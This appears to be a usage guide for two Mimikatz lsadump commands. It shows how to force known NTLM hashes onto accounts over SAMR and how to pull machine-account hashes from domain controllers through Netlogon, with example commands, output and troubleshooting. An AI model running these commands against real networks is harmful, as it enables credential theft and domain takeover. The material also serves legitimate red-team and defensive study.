 ## `lsadump::changentlm`
Invokes the SAM password change RPC, supplying both the current and the desired password material.

| Flag | Purpose | Why use it |
| --- | --- | --- |
| `/oldpassword:<string>` or `/oldntlm:<hex>` | Provide the current credentials. | Required so SAM will authorize the change. |
| `/newpassword:<string>` or `/newntlm:<hex>` | Provide the new credentials. | Defines the replacement password. |
| `/user:<name>` or `/rid:<rid>` | Select the account. | Mandatory target selector. |
| `/server:<hostname>` | Point to a remote SAM server. | Allows remote password changes over SAMR. |

If the old or new credentials are omitted the command reuses the built-in default hash, which can be useful for quickly forcing known values onto machine accounts.【F:mimikatz/modules/kuhl_m_lsadump.c†L2168-L2238】【F:mimikatz/modules/kuhl_m_lsadump.c†L2239-L2295】

### Example usage
* Change a password using clear-text credentials:
  ```
  mimikatz # lsadump::changentlm /user:svcbackup /oldpassword:P@ssw0rd! /newpassword:S3cur3!
  ```
  Example output:
  ```
  Old NTLM : 5f3e62dffd1a4b3e9f82a5c8f8f8cb33
  New NTLM : d2d2e8436a9a2b9c8f7d0b9aa3b4c123
  >>> Password successfully changed
  ```
* Force a known hash when the old password is unknown:
  ```
  mimikatz # lsadump::changentlm /user:COMPUTER$ /newntlm:31d6cfe0d16ae931b73c59d7e0c089c0
  ```

### Potential errors and troubleshooting
* **`STATUS_WRONG_PASSWORD`** – The supplied `/oldpassword` or `/oldntlm` does not match the current
  secret. Capture or verify the existing credentials before retrying.
* **`RPC_S_ACCESS_DENIED`** – The account lacks permission to change the target password. Use an
  account with delegated rights or Domain Admin privileges.
* **`SamrChangePasswordUser` fails on remote hosts** – Ensure the Remote Registry and SAMR services
  accept remote calls; open firewall ports 135 and 445.

## `lsadump::netsync`
Speaks the Netlogon protocol to retrieve current and previous NTLM hashes for domain controllers or
servers.

| Flag | Purpose | Why use it |
| --- | --- | --- |
| `/dc:<fqdn>` | Target the domain controller. | Mandatory because Netlogon is a server-to-server protocol. |
| `/user:<account>` | Authenticate as the specified machine or domain account. | Required to build the Netlogon credential chain. |
| `/account:<name>` | Override the account whose passwords are requested (defaults to `/user`). | Allows querying trust accounts different from the authenticating identity. |
| `/computer:<NetBIOS>` | Provide the client computer name (defaults to `mimikatz`). | Needed when emulating a specific workstation. |
| `/ntlm:<hex>` | Supply the current NTLM hash for the authenticating account. | Required to derive the Netlogon session key. |
